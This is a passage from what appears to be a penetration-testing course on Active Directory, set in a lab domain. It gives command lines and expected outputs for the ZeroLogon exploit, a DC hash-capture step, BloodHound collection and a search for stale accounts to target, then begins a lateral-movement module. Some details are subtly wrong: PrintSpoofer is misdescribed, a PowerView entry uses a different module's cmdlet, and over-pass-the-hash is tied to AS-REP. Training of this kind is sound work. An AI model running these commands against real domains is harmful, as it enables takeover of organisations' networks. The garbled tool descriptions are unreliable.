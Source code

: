     ```bash
    # Run ZeroLogon exploit to obtain machine account password
    python3 ZeroLogon.py dc1.lab.local
    
    ```
    
    _Expected Output:_ `SUCCESS: Exploit complete, authenticated as DC$ account!`
    
-   **PrintSpoofer**
    
    ```powershell
    Import-Module .\PrintSpoofer.ps1
    Invoke-PrintSpoofer -DC dc1.lab.local
    
    ```
    
    _Expected Output:_ `Hash captured: DC$::DOMAIN:010100...`
    

_Find and abuse stale or misconfigured AD objects._

#### Tools & Commands

-   **BloodHound**
    
    ```bash
    SharpHound.exe --CollectionMethod All
    
    ```
    
    _Expected Output Files:_ `objects.json`, `acls.json`, highlighting stale trusts and orphaned accounts.
    
-   **PowerView**
    
    ```powershell
    # Find stale computer accounts not changed in 90 days
    Get-ADComputer -Filter {LastLogonTimestamp -lt (Get-Date).AddDays(-90)} | Select Name,LastLogonTimestamp
    
    ```
    
    _Expected Output Snippet:_ Lists old computer accounts to target.
    

---

## <a name="module-16"></a> Module 16: Lateral Movement & Privilege Escalation

### Introduction  
Pivot across hosts using PtH/PtT, WinRM, PSExec, etc., and escalate local privileges to further domain compromise.

### Definitions  
1. **PtH (Pass-the-Hash)**: Use NTLM hash to authenticate without password.  
2. **PtT (Pass-the-Ticket)**: Inject Kerberos tickets into session.  
3. **Over-Pass the Hash**: Use NTLM hash in Kerberos flow (AS-REP).  
4. **WinRM**: Windows Remote Management protocol (PowerShell Remoting).  
5. **PSExec**: Tool for remote command execution.  
6. **DCOM**: Distributed COM for remote execution.  
